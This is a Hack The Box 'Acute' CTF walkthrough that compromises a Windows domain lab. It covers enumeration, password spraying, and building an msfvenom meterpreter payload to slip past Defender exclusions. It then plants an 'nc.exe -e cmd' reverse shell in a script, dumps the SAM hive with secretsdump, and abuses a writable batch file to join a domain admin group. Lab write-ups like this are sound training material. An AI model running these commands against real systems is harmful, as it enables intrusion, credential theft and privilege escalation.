 # [Acute](https://app.hackthebox.com/machines/Acute)

```bash
nmap -p- --min-rate 10000 10.10.11.145 -Pn
```

![Alt text](img/image.png)


After detection of one port (443), let's do greater nmap scan.

```bash
nmap -A -sC -sV -p443 10.10.11.145
```

![Alt text](img/image-1.png)


From this image, I add 'atsserver.acute.local' and 'acute.local' into my '**/etc/hosts**' file


We have a web application for 'atsserver.acute.local'.

![Alt text](img/image-2.png)


From response headers, I see that 'X-Powered-By' value is 'ASP.NET', let's search directories.

```bash
feroxbuster -u https://atsserver.acute.local/ -x aspx -k -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt 
```

![Alt text](img/image-5.png)

I found `.docx` file which gives default password, also there is remote training is possible means (RDP is enabled for some server)


![Alt text](img/image-3.png)


I got usernames from possible name and surnames for below image.

![Alt text](img/image-4.png)


[Link](https://atsserver.acute.local/Acute_Staff_Access)  for remote access.


I also do `exiftool` for `.docx` file, which shows computer name '**Acute-PC01**'.

Possible usernames like below for one password 'Password1!'.

```bash
awallace
chall
edavies
imonks
jmorgan
lhopkins
```

![Alt text](img/image-6.png)


I got Powershell.

![Alt text](img/image-7.png)


I tried to upload malicious executable, but it doesn't work as because of 'Windows Defender'.

I search `Exclusions` directories for  'Windows Defender' via below `reg query` command.

```bash
reg query "HKLM\SOFTWARE\Microsoft\Windows Defender\Exclusions\Paths"
```

![Alt text](img/image-8.png)


Let's upload malicious executable into 'C:\Utils' directory.

1.First, let's create malicious executable via `msfvenom` command.
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LPORT=1337 LHOST=10.10.16.6 -f exe -o dr4ks.exe
```

![Alt text](img/image-9.png)


2.Let's open HTTP serve to serve this malicious executable.
```bash
python3 -m http.server --bind 10.10.16.6 8080
```

![Alt text](img/image-11.png)


3.Then, download this via `wget` command. (on C:\Utils)
```bash
wget http://10.10.16.6:8080/dr4ks.exe -outfile dr4ks.exe
```

![Alt text](img/image-10.png)

While executing this malicious 'dr4ks.exe' file, I got reverse shell from port (1337).


![Alt text](img/image-12.png)


I see live RDP sessions via `qwinsta` command.

```bash
qwinsta /server:127.0.0.1
```

![Alt text](img/image-13.png)


While I doing `screenshare` command on `meterpreter` shell, it gives live screen recording to me.

![Alt text](img/image-14.png)



I copied all commands from screen mirroring.

```bash
$pass = ConvertTo-SecureString "W3_4R3_th3_f0rce." -AsPlaintext -Force
$cred = New-Object System.Management.Automation.PSCredential ("acute\imonks", $pass)
Enter-PSSession -computername ATSSERVER -ConfigurationName dc_manage -credential $cred
```

![Alt text](img/image-15.png)


I check that my credentials worked or not via below command.

```bash
Invoke-Command -ScriptBlock { whoami } -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred
```

![Alt text](img/image-16.png)



I can read user.txt file via typing a lot of commands using this session.

```bash
Invoke-Command -ScriptBlock { cat C:\users\imonks\desktop\user.txt } -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred
```

user.txt

![Alt text](img/image-17.png)


I found a file which have sensitive credentials called 'wm.ps1'
```bash
Invoke-Command -ScriptBlock { cat ..\desktop\wm.ps1 } -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred
```

![Alt text](img/image-18.png)


I knwo that this 'jmorgan' user is group of '**Administrators**' `net localgroup Administrators`.

![Alt text](img/image-19.png)


Now, I replace this `wm.ps1` command via my reverse shell, but my `nc.exe` binary should be in 'C:\Utils' directory.


```bash
Invoke-Command -ScriptBlock { ((cat ..\desktop\wm.ps1 -Raw) -replace 'Get-Volume', 'C:\utils\nc.exe -e cmd 10.10.16.6 1338') | sc -Path ..\desktop\wm.ps1 } -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred
```


Yes, I read that my reverse shell script block is located or not via below command.

```bash
Invoke-Command -ScriptBlock { cat ..\desktop\wm.ps1 } -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred
```

![Alt text](img/image-20.png)


Let's run this powershell script via below cmdlet.

```bash
Invoke-Command -ScriptBlock { C:\users\imonks\desktop\wm.ps1 } -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred
```

I got reverse shell from port (1338).

![Alt text](img/image-21.png)


As this user belongs to 'Administrators' localgroup, can easily dump 'SAM' and 'SYSTEM' files.

```bash
reg save HKLM\sam sam.bak
reg save HKLM\system sys.bak
```

![Alt text](img/image-22.png)


I download two files from `meterpreter` shell.

![Alt text](img/image-23.png)


Now, to dump SAM database, I need to use `secretsdump.py` script of `Impacket` module.
```bash
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.bak -system sys.bak LOCAL
```

![Alt text](img/image-24.png)



I crack the password of 'Administrator' user via [Crackstation](https://crackstation.net).

![Alt text](img/image-25.png)


I use this password for 'awallace' user.

```bash
$pass = ConvertTo-SecureString "Password@123" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("ACUTE\awallace", $pass)
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock { whoami } 
```

![Alt text](img/image-26.png)

I found a script which this user have permission '\program files\keepmeon'. which is `.bat` file, If I add reverse shell into it, I can be Administrator.


I looked at Domain Admins via `net group /domain`.

![Alt text](img/image-27.png)


I looked at specific one called 'Site_Admin'.

![Alt text](img/image-28.png)


I will use `.bat` script to add my user into this 'Site_Admin' group via below command.

```bash
Invoke-Command -ScriptBlock { Set-Content -Path '\program files\keepmeon\0xdf.bat' -Value 'net group site_admin awallace /add /domain'} -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred

Invoke-Command -ScriptBlock { cat '\program files\keepmeon\0xdf.bat' } -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred  #check that previous command added or not
```

![Alt text](img/image-29.png)


Now, I can read root.txt via below command.

```bash
Invoke-Command -ScriptBlock { cat \users\administrator\desktop\root.txt  } -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred
```


root.txt

![Alt text](img/image-30.png)


